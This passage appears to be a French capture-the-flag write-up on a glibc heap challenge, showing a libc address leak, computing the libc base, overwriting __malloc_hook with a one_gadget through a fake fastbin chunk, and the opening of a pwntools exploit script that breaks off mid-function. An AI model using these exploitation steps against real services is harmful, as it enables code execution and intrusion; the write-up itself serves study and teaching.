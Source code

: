 En effet, 0x7f17c7578b78 est bien une adresse pointant vers la libc, car on sait que la libc est mappée après `0x7f0000000000`.
Il se trouve que notre leak se trouve 0x3c4b78 bytes après le début de la libc.
Ainsi : `libc_base = leak - 0x3c4b78`
Avec l'adresse de la base de la libc, on trouve l'adresse de `__malloc_hook`.
En effet, pour obtenir un shell, on va remplacer `__malloc_hook` par un one_gadget.

## Remplacer `__malloc_hook` par un one_gadget
Maintenant que l'on sait quoi écrire et où, on a gagné !
```py
www(p64(libc_base+one_gadget), addr_malloc_hook)
```
Cela devrait remplacer le hook de malloc par notre one_gadget, et un simple appel à malloc nous fera pop un shell.
Malheureusement, cela n'a pas marché et malloc nous retourne une erreur : `malloc(): memory corruption (fast)`
On se documente et on apprend que cette erreur peut nous être jeté si la taille du chunk qui va être retourné par malloc ne correspond pas à ce qui devrait être.
Heureusement 19 bytes au dessus de `__malloc_hook`, il y a un 0x7f qui est une taille valide pour être un fastchunk.
On corrige : 
```py
www(b"A"*19 + p64(libc_base+one_gadget), addr_malloc_hook-19)
```

----
Voici l'exploit complet : 
```py
from pwn import *
import sys

def malloc(size, what):
    what = p64(what) if isinstance(what, int) else what
    r.recvuntil(">>> ")
    r.sendline("1") # malloc
    r.recvuntil(": ")
    r.sendline(str(size)) # size
    res = r.recvline().split()[2]
    r.recvuntil(":\n")
    r.sendline(what)
    return int(res, 16)

def free(ptr):
    ptr = hex(ptr) if isinstance(ptr, int) else ptr
    r.recvuntil(">>> ")
    r.sendline("2") # free
    r.recvuntil(": ")
    r.sendline(str(ptr))
    r.recvline()

def read_at(addr):
    addr = hex(addr) if isinstance(addr, int) else addr
    r.recvuntil(">>> ")
    r.sendline("3") # debug
    r.recvuntil(": ")
    r.sendline(addr)
    a = r.recvline().split()

    f = lambda x: bytes(map(lambda y: int(y, 16), x))

    return [f(a[:8]), f(a[8:])]

def www(what, where):
    a = malloc(104, "")
```
